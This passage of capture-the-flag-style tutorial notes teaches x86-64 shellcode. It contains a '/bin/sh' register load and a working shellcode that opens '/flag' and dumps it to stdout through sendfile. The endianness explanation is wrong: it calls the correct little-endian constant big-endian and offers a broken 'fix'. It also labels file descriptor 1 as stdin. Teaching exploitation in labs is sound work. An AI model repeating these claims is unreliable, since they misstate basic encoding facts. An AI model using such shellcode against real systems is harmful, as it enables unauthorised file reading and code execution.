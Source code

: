 
Let us store a 8 byte number 0x1122334455667788 in memory.

![Image 1](Pasted-image-20221229224021.png)

  

When we are writing our shellcode, we need to be aware of the endianness of the data. Endianness is the order in which data is stored in memory. So if we are writing shellcode for a little-endian system, then we need to write our data in reverse order.

  

For example:

  

```x86asm

mov rbx, 0x0068732f6e69622f # move "/bin/sh\0" into rbx

```

  

This code will work on a big-endian system, but on a little-endian system it will need to be written as:

  

```x86asm

mov rbx, 0x2f62696e2f

```

  

### Non-shell shellcode

We can write a shellcode that can do many things other than just spawning a shell. For example, we can write a shellcode that can open a file and send it's data to provided file descriptor (*1 = stdin*). For that we have shellcode like:

  

```x86asm

mov rbx, 0x00000067616c662f # push "/flag" filename

push rbx

mov rax, 2 # syscall number of open

mov rdi, rsp # point the first argument at stack (where we have "/flag")

mov rsi, 0 # NULL out the second argument (meaning, O_RDONLY)

syscall # trigger open("/flag", NULL)

mov rdi, 1 # first argument to sendfile is the file descriptor to output to (stdout)

mov rsi, rax # second argument is the file descriptor returned by open

mov rdx, 0 # third argument is the number of bytes to skip from the input file

mov r10, 1000 # fourth argument is the number of bytes to transfer to the output file

mov rax, 40 # syscall number of sendfile

syscall # trigger sendfile(1, fd, 0, 1000)

mov rax, 60 # syscall number of exit

```